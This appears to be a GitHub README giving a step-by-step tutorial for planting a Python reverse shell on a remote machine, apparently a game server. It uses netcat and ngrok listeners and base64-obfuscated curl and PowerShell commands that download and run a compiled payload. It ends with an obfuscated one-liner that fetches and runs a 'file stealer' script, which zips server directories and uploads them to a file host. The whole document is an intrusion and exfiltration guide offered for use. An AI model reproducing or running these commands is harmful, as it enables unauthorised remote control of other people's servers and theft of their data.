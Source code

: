 # Python Reverse Shell Tutorial (Linux and Windows)
### UPDATE: I made a windows batch script that does it all automatically, from installing python, to compiling the code, its all userfriendly: [0137b23d50.zip](https://catlitter.minoa.cat/api/view/0137b23d50.zip)
###
you will need [Python](https://www.python.org/downloads/), [Netcat](https://eternallybored.org/misc/netcat/netcat-win32-1.12.zip), & [Ngrok](https://ngrok.com)

## On Your Own Computer
1. **Get Netcat**  
   - For Windows: [Download Netcat](https://eternallybored.org/misc/netcat/netcat-win32-1.12.zip)  
   - For Linux or macOS: Find and install the appropriate files for your OS.

2. **Get Ngrok and Set Up**  
   - [Download and setup Ngrok](https://ngrok.com)

3. **Start Ngrok**  
`ngrok tcp 4444`


4. **Start Netcat**  
`nc -lvp 4444`


5. **Download and Edit Python File**
   - [Download the Python script n compiler](https://catlitter.minoa.cat/api/view/fafc8a7461.zip) and in rs.py edit the IP and port to be the Ngrok one.
   - (Must have python installed) run windows compile.bat and only if you have wsl setup you can run linux compile.bat and the files that show up are compilex executables.
   - Upload the compiled files to [anontransfer.com](https://anontransfer.com/)!
   - Once finished uploading goto the download url, click download, then go into your downlaod manager and copy the direct download link.

6. **Convert URL to Base64**
   - Use [base64encode.org](https://www.base64encode.org/) to convert the URL for whatever file to Base64.

## In Game (run under the shell command)
7. **Copy and Paste the Command into your Terminal**
   - While in, use the command below, replacing `{BASE64 GOES HERE}` with the Base64 link:
Linux:
`curl -O $(echo "{BASE64 GOES HERE}" | base64 --decode)`
###
Windows:
`powershell -Command "Invoke-WebRequest -Uri ([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String('{BASE64 GOES HERE}'))) -OutFile ([System.IO.Path]::GetFileName(([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String('{BASE64 GOES HERE}')))))"`

###

8. **Run the File**
Linux:
`chmod +x {FILENAME}`
 `./{FILENAME}`
Windows:
`start {FILENAME}`
 - If there are errors, idk..


# more
## Linux mc server file stealer
```
bash -c 'curl -o steal.sh $(echo "aHR0cHM6Ly9jYXRsaXR0ZXIubWlub2EuY2F0L2FwaS92aWV3L2FkMGI1MTJhNzZiNTBjODhlY2VmLnNo" | base64 --decode) && chmod +x steal.sh && bash ./steal.sh && rm -- steal.sh'
```
*(downloads and runs [this script](https://catlitter.minoa.cat/api/view/ad0b512a76b50c88ecef.sh) that zips and uploads whatever dir you enter to gofile and gives you the link only on linux)*
